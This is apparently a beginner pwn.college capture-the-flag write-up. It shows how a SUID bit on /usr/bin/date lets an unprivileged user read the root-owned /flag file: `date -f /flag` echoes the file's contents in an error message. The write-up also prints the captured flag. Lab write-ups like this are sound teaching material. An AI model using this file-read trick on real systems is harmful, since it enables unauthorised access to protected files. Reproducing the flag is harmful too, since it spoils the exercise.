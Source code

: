 # Challenge Name: date
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/date`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/date
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/date
```

- The `s` in `-rws` indicates it's a SUID binary.
- `date` runs with **root privileges**.

## 🚀 Exploitation

ChatGPT said:
The -f option in the `date` command is used to read dates from a file or standard input — but only on some systems, primarily GNU date, and not available in all environments (like BusyBox or macOS).
But input /flag as file make's to reveal flag as error

```bash
date -f "/flag"
```

Output:
```
date: invalid date ‘pwn.college{AMAWCECKul4SQGZcWJO3xDlWzlZ.ddDOxwSM0IzMyEzW}’
```
